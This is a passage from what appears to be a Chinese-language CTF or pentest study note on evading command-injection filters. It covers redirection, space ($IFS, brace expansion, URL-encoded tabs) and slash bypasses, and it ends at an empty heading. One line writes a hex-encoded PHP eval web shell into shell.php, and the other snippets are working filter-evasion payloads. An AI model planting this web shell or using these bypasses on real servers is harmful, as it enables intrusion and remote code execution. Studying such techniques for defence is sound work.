 ### 输出重定向符绕过

重定向符写入文件的本质是将**标准输入输出到文件**中

```shell
echo 3c3f70687020406576616c28245f504f53545b277479736563275d293b3f3e|xxd -ps -r|tee shell.php
```

> xxd：用于将十六进制编码的数据转换回原始的二进制数据
>
> - `-ps`：指定输出格式为纯粹的十六进制字符串。
> - `-r`：表示进行反向操作，即将十六进制字符串转换为二进制数据。
>
> tee：同时将读取的标准输入内容输出到标准输出和指定的文件中。

顺着这个思路

![image-20230912231430079](F:/知识库/blog/source/_posts/images/image-20230912231430079.png)

![image-20230912231439162](F:/知识库/blog/source/_posts/images/image-20230912231439162.png)

```
command | dd of=file.txt
command | cp /dev/stdin file.txt
```



### 空格绕过

1. `${IFS}`
2. ``$IFS``+空字符
3. 重定向符
4. `{cat,flag.php}`
5. url参数编码，空格%20，制表符%09



### 目录分隔符`/`绕过

1. 多条命令执行，先cd到目的目录，再执行cat等命令

   ```shell
   cd ..;cd ..;cd ..;cat flag
   ```

   > 如果；被过滤，可以用%0a或者&&（需要url编码）代替

2. 截取环境变量

   `env`或者`printenv`：打印环境变量

   ```shell
   khaz@DESKTOP-JCNAFF7:~$ echo ${PWD:0:1}
   /
   ```



### 内敛执行绕过
